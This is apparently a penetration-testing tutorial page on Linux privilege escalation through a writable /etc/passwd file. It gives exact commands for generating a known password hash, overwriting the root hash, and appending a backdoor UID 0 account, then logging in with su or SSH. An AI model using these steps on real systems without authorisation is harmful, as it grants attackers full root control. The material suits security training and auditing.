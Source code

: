 ### **OVERVIEW OF /ETC/PASSWD VULNERABILITIES**

The `/etc/passwd` file is crucial in Linux systems as it stores essential information about user accounts. It is readable by all users on the system but should only be writable by the root user. Any misconfiguration in its permissions can lead to severe security risks.

### **STEP 1: MODIFYING /ETC/PASSWD TO CHANGE ROOT PASSWORD**

If `/etc/passwd` is writable, attacker can modify the password hash of the root user to a known value, enabling unauthorized root access. This is feasible if the system uses legacy behavior where `/etc/passwd` can contain password hashes.

1.  Confirm if /etc/passwd is writable.  
    `ls -l /etc/passwd`  
    
    ![](../../../img/Linux-Environment/140.png)
    
2.  Use OpenSSL to generate a new password hash with a password of your choice:.  
    `openssl passwd -1 "hackfast"`  
    
    ![](../../../img/Linux-Environment/141.png)
    
3.  Replace the root user password hash.  
    `nano /etc/passwd`  
    
    ![](../../../img/Linux-Environment/142.png)
    
4.  Use the new password to switch to the root user.  
    `su`  
    
    ![](../../../img/Linux-Environment/143.png)
    
5.  Alternatively, log in with SSH:  
    `ssh root@[IP-ADRESS]`
    

### **STEP 2: ADDING A NEW ROOT ACCOUNT**

If appending is possible but not modification, you can add a new user with root privileges by assigning them the root user ID (UID 0).

1.  Add a new entry with UID 0 and your known password hash.  
    `echo 'newroot:[hash]:0:0:root:/root:/bin/bash' >> /etc/passwd`
    
2.  Log in as the new user without needing root actual password.  
    `su newroot`
    
3.  Alternatively, log in with SSH:  
    `ssh newroot@[IP-ADRESS]`